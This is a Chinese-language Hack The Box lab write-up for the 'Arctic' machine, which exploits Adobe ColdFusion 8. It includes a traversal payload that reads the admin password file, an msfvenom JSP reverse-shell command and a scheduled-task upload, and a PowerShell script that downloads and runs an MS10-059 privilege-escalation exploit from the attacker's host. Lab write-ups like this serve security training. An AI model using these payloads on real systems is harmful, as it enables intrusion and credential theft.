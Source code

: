 # Arctic\_11

![image-20200919214733180](assets/Arctic_11.assets/image-20200919214733180.png)

这个在oscp时曾经做过一样的，非常简单

扫目录得到

```bash
http://10.10.10.11:8500/CFIDE/administrator/
```

![image-20200919214935876](assets/Arctic_11.assets/image-20200919214935876.png)

ADOBE COLDFUSION 8

[https://www.exploit-db.com/exploits/14641](https://www.exploit-db.com/exploits/14641)

根据漏洞介绍使用以下payload可以直接读取到凭证

```bash
http://10.10.10.11/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

浏览器直接浏览得到md5加密的密码

![image-20200919215407773](assets/Arctic_11.assets/image-20200919215407773.png)

```bash
2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
```

![image-20200919215526979](assets/Arctic_11.assets/image-20200919215526979.png)

```bash
happyday
```

使用用户名`admin`密码`happyday`登陆进ADOBE的后台

此后台可以在`DEBUGGING & LOGGING`下的`Schedule Tasks`中可以通过增加新任务的方式添加文件进服务器。

首先本地生成一个payoad

```bash
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.7 LPORT=4444 -f raw > rshell.jsp
```

同时在本地当前工作目录建立简单的php http服务

```bash
$ php -S localhost:80
PHP 7.2.9-1 Development Server started at Sun Feb  2 14:25:56 2020
Listening on http://localhost:80
Document root is /root/HackTheBox/Arctic_10.10.10.11
Press Ctrl-C to quit.
```

![image-20200919215842171](assets/Arctic_11.assets/image-20200919215842171.png)

在url这里将kali php http 服务下的制作好的rshell文件的url填入

![image-20200919220146247](assets/Arctic_11.assets/image-20200919220146247.png)

文件的真实路径可以通过查看`SERVER SETTINGS`下的`Settings Summary`中查看

![image-20200919220329123](assets/Arctic_11.assets/image-20200919220329123.png)

![image-20200919220446937](assets/Arctic_11.assets/image-20200919220446937.png)

增加任务后点击提交按钮即可浏览`http://10.10.10.11:8500/CFIDE/rshell.jsp`以激活shell

在kali 监听端口可获得shell

![image-20200919221407108](assets/Arctic_11.assets/image-20200919221407108.png)

在用户桌面文件夹可获得user

![image-20200919221539531](assets/Arctic_11.assets/image-20200919221539531.png)

基础枚举后发现win版本适合使用ms10-059

[https://www.exploit-db.com/exploits/14610/](https://www.exploit-db.com/exploits/14610/)

下载好exploit后，在靶机上通过echo生成下载用的powershell脚本

```text
C:\ColdFusion8>echo $webclient = New-Object System.Net.WebClient >>wg.ps1  
echo $webclient = New-Object System.Net.WebClient >>wg.ps1

C:\ColdFusion8>echo $url = "http://10.10.14.7/MS10-059.exe" >>wg.ps1
echo $url = "http://10.10.14.7/MS10-059.exe" >>wg.ps1

C:\ColdFusion8>echo $file = "exploit.exe" >>wg.ps1
echo $file = "exploit.exe" >>wg.ps1

C:\ColdFusion8>echo $webclient.DownloadFile($url,$file) >>wg.ps1
echo $webclient.DownloadFile($url,$file) >>wg.ps1

C:\ColdFusion8>powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wg.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wg.ps1
```

![image-20200919222534790](assets/Arctic_11.assets/image-20200919222534790.png)

本地未占用的端口设立监听，执行exploit，在监听端口获得新的shell

![image-20200919223157866](assets/Arctic_11.assets/image-20200919223157866.png)

![image-20200919223252336](assets/Arctic_11.assets/image-20200919223252336.png)

root

![image-20200919223412948](assets/Arctic_11.assets/image-20200919223412948.png)

